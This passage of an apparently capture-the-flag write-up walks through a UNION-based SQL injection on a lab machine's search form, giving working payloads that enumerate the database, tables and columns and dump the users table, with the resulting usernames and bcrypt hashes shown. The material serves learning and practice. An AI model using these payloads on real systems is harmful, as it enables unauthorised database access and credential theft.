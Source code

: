 <p align="center"><img src="https://github.com/MaxwellCaron/writeups/assets/69171981/52fef8cd-17d6-44af-b83f-b9c5efb75451" width="750" /></p>

Opening burp and turning our proxy on we can capture this request

<br><br>

### SQL Injection

Find out which columns are text and where they are located
```
search=x' UNION ALL SELECT 1,2,3,4,5,6,7,8,9,10-- -&submit=
```

<p align="center"><img src="https://github.com/MaxwellCaron/writeups/assets/69171981/f4c1eb9c-64d7-4618-9db4-e8de7d161903" width="750" /></p>

- We will be using the 4th column

<br>

Retrieve database names:
```
search=x' UNION ALL SELECT 1,2,3,concat(schema_name),5,6,7,8,9,10 FROM information_schema.schemata-- -&submit=
```
- Found `olympus` database

<br>

Retrieve table names:
```
search=x' UNION ALL SELECT 1,2,3,concat(table_name),5,6,7,8,9,10 FROM information_schema.TABLES WHERE table_schema='olympus'-- -&submit=
```
- Found `users` table

<br>

Retrieve column names:
```
search=x' UNION ALL SELECT 1,2,3,concat(column_name),5,6,7,8,9,10 FROM information_schema.COLUMNS WHERE TABLE_NAME='users'-- -&submit=
```
- Found `user_name`, `user_password`, and `randsalt`  columns

<br>

Retrieve data:
```
search=x' UNION ALL SELECT 1,2,3,concat(user_name, ':', user_password, ' salt: ', randsalt),5,6,7,8,9,10 FROM users-- -&submit=
```

Username | Password | Salt
------------ | ------------ | ------------
prometheus | `$2y$10$YC6uoMwK9VpB5QL513vfLu1RV2sgBf01c0lzPHcz1qK2EArDvnj3C` |
root | `$2y$10$lcs4XWc5yjVNsMb4CUBGJevEkIuWdZN3rsuKWHCc.FGtapBAfW.mK` | dgas
zeus | `$2y$10$cpJKDXh2wlAI5KlCsUaLCOnf0g5fiG0QSUS53zp/r0HMtaj6rT4lC` | dgas
